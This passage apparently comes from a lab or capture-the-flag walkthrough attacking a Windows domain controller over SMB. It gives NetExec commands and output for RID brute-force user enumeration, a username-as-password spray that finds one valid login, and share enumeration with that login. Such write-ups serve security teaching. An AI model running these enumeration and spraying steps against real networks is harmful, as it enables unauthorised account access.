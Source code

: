 This method works and returns a massive amount of users. To output the huge amount of users with additional information to a file, you can use `awk`.

```
$nxc smb 10.10.99.112 -u "guests" -p "" --rid-brute | awk '{split($6,a,"\\"); print a[2]}' > users.txt
```

## User

Next I checked if any user uses their username as their password. After a massive amount of guest users you can find one user which uses their username as the password.

```terminal
$nxc smb 10.10.99.112 -u users.txt -p users.txt --no-bruteforce --continue-on-success
SMB         10.10.99.112    445    DC01             [-] SOUPEDECODE.LOCAL\jiris25:jiris25 STATUS_LOGON_FAILURE 
SMB         10.10.99.112    445    DC01             [-] SOUPEDECODE.LOCAL\colivia26:colivia26 STATUS_LOGON_FAILURE 
SMB         10.10.99.112    445    DC01             [-] SOUPEDECODE.LOCAL\pyvonne27:pyvonne27 STATUS_LOGON_FAILURE 
SMB         10.10.99.112    445    DC01             [-] SOUPEDECODE.LOCAL\zfrank28:zfrank28 STATUS_LOGON_FAILURE 
SMB         10.10.99.112    445    DC01             [+] SOUPEDECODE.LOCAL\FAKE:FAKE 
SMB         10.10.99.112    445    DC01             [-] SOUPEDECODE.LOCAL\file_svc:file_svc STATUS_LOGON_FAILURE 
SMB         10.10.99.112    445    DC01             [-] SOUPEDECODE.LOCAL\charlie:charlie STATUS_LOGON_FAILURE 
SMB         10.10.99.112    445    DC01             [-] SOUPEDECODE.LOCAL\qethan32:qethan32 STATUS_LOGON_FAILURE 
SMB         10.10.99.112    445    DC01             [-] SOUPEDECODE.LOCAL\khenry33:khenry33 STATUS_LOGON_FAILURE 
SMB         10.10.99.112    445    DC01             [-] SOUPEDECODE.LOCAL\sjudy34:sjudy34 STATUS_LOGON_FAILURE 
SMB         10.10.99.112    445    DC01             [-] SOUPEDECODE.LOCAL\rrachel35:rrachel35 STATUS_LOGON_FAILURE 
```

To see how to proceed you can use the credentials to scan for the shares.
```terminal
$nxc smb 10.10.99.112 -u "FAKE" -p "FAKE" --shares
SMB         10.10.99.112    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.99.112    445    DC01             [+] SOUPEDECODE.LOCAL\FAKE:FAKE 
SMB         10.10.99.112    445    DC01             [*] Enumerated shares
SMB         10.10.99.112    445    DC01             Share           Permissions     Remark
SMB         10.10.99.112    445    DC01             -----           -----------     ------
SMB         10.10.99.112    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.99.112    445    DC01             backup                          
SMB         10.10.99.112    445    DC01             C$                              Default share
SMB         10.10.99.112    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.99.112    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.99.112    445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.99.112    445    DC01             Users           READ
```
